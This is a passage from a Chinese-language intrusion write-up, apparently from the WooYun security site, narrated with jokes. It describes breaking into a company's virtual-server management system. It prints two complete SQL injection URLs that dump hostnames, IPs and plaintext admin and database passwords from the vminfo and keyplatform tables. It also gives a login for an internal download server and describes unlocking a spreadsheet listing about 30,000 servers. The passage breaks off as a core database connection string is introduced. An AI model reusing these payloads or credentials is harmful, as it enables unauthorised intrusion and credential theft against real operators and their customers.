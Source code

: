 ![](http://static.wooyun.org//drops/20151028/2015102817291341325.jpg)

图10 256位AES

我自罚三杯，早早地睡了，想到明日就可实现不睡懒觉的伟大理想，辗转反侧。

翌日，我错过了最后一个肉包子。还是大师说的对，“施主，吃素有益健康，请把肉施舍给老衲吧，哦米拖佛。”

# 0x04 三颗蓝宝石

* * *

掘的过程犹如筛沙，漫长而无聊，今日稍加展示三颗璀璨的蓝宝石。

第一枚，vhcon.XXX.com漏点。查询vminfo表：

    
    
    http://vhcon.XXX.com/taskmanstatus/query.aspx?likename=cnd%27 union all Select top 100 Convert(Nvarchar(4000),[主机名]%2bChar(124)%2b[adm口令]%2bchar(124)%2b[bka口令]%2bchar(124)%2b[数据库口令]%2bchar(124)%2b[主IP]%2bchar(124)%2b[从IP]%2bchar(124)%2b[主机类型]%2bchar(124)%2b[系统类型]%2bchar(124)%2b[系统版本]%2bchar(124)%2b[出厂编号]%2bchar(124)%2b[机房位置]%2bchar(124)%2b[从IP情况说明]%2bchar(124)%2b[组号]%2bchar(124)%2b[内网IP]%2bchar(124)%2b[城市]%2bchar(124)%2b[服务商]%2bchar(124)%2b[机房]%2bchar(124)%2b[服务器类型]%2bChar(124)%2bconvert(nvarchar(400),[id])) as servername,[主IP] as chkuserdir  From [hiconnect_db]..[vminfo];--&act=loadtask&taskname=chkuserdir&tasktype=unmatch&
    

查询keyplatform表。对于这个keyplatform，我曾经做过非常深入的问卷调查，全国人民一致表示资历尚浅，弄不清这西洋文~~~后经专家的权威认证，Key是钥匙，platform是平台，而后专家缓缓地闭上眼，想像出平台上挂满了钥匙的场景。如此渊博的学识，无怪已经入选了社科院，佩服佩服。

    
    
    http://vhcon.XXX.com/taskmanstatus/query.aspx?likename=cnd%27 union all Select top 1000 Convert(Nvarchar(4000),[hostname]%2bChar(124)%2b[wanip]%2bchar(124)%2b[lanip]%2bchar(124)%2b[username]%2bchar(124)%2b[password]%2bchar(124)%2b[conip]%2bchar(124)%2bconvert(nvarchar(200),[contype])%2bchar(124)%2b[os]%2bchar(124)%2b[dev]%2bchar(124)%2b[pe]%2bchar(124)%2bconvert(nvarchar(200),[appgroup])%2bchar(124)%2b[city]%2bchar(124)%2b[jifang]%2bchar(124)%2b[apps]%2bchar(124)%2bconvert(nvarchar(200),[ifdel])%2bChar(124)%2bconvert(nvarchar(400),[id])) as servername,[hostname] as chkuserdir  From [hiconnect_db]..[keyplatform];--&act=loadtask&taskname=chkuserdir&tasktype=unmatch&
    

![](http://static.wooyun.org//drops/20151028/2015102817291493501.jpg)

图12 keyplatform

第二枚，立足于XXX的服务器，访问opdown.XXX.com，用户名civilink，密码opdown。下载HiConnectClient.zip，解压后将“常用表格-虚机.xls”去除密码，三万台虚拟服务器一目了然。

![](http://static.wooyun.org//drops/20151028/2015102817291468152.jpg)

图13 Opdown的满汉全席

![](http://static.wooyun.org//drops/20151027/201510271006336468414.jpeg)

图14 明码标价，诚得我心

第三枚，令小XXX投怀送抱的终极晶钻——XXX之心，核心数据库的连接串为
